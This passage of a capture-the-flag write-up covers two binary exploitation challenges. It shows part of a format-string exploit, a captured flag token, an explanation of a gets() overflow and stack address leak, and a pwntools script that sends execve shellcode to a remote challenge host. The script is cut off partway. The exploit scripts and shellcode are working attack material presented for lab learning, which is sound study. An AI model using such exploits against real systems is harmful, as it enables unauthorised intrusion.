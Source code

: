 ``` 
  b"%245x" + b"%4$hhn" +
  b"%14x" + b"%5$hhn"
)

# We then send this format string as input
p.sendline(format_str)

# Now we should have shell access, so we can retrieve the flag
p.interactive() 
```

snake
=========================== 
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNC1zbmFrZSIsImlwIjoiMjIwLjI0MC44Mi45NiIsInNlc3Npb24iOiJkMjA5ZDM4ZS0yNTg0LTQ2OTItODQzMS05YmZjYWQ5Y2M5MmYifQ.EATdG3L2W6RKYp93487YBq2cogXsSOsybpHezqAB4-E}
 
General overview of problems faced 
------------------------------------- 
When starting the program, we are given several options to select. Option 3 asks for a password as input, and it says that if you enter the correct password it will display the flag. However, if we actually look at the binary ninja assembly, we can see it simply checks the length of my input, and if it is more than 0x50 (or 80) characters, it prints some address on the stack.
 
To determine what this address is, we again look in binary ninja, and can see it is the start of the buffer that takes in your option selected. For example, if selecting option 3 when prompted and then printing the contents of the address using x 0xffffce90 in gdb, it contains the value 3.

Also, option 1 asks us to input our name into a buffer, yet using binary ninja we can see this uses gets, so we can overflow it. Hence, since we have a buffer we can overflow and an address on the stack, we can create a payload to jump to this address and then execute shellcode to pop a shell.

To begin, we want to determine the offsets of the return address and the stack address. Using gdb, we can use cyclic 300 and input this into the buffer. Then, when attempting to return it displays 'Invalid address 0x616f6161'. Using cyclic -l 0x616f6161, it gives 54, meaning the return address is at an offset of 54 bytes from the start of the buffer. To determine the offset of the stack address, since we know it is 0xffffce90 from earlier (and gdb turns off ASLR so it will remain the same), we can simply do cyclic -l 0x61706261, which gives 158.

Hence, our payload will have the stack address at offset 54, and our shellcode at offset 158. This will overwrite the return address of our function, instead jumping to the shellcode and executing it to pop a shell.

------------------ 
``` 
p = remote("plsdonthaq.me", 4002)

# We first select option 3 and send 80 bytes so it passes the condition and
# prints the stack address
p.sendline("3")
p.sendline(b"A"*80)

# We then extract this address printed
p.recvuntil("offset ")
stackAddress = int(p.recvline()[:-1], 0)

# Then we select option 1 so we can input our payload into the buffer
p.sendline("1")

# This is the shellcode to pop a shell
shellcode = asm("""
xor eax, eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov ecx, eax
```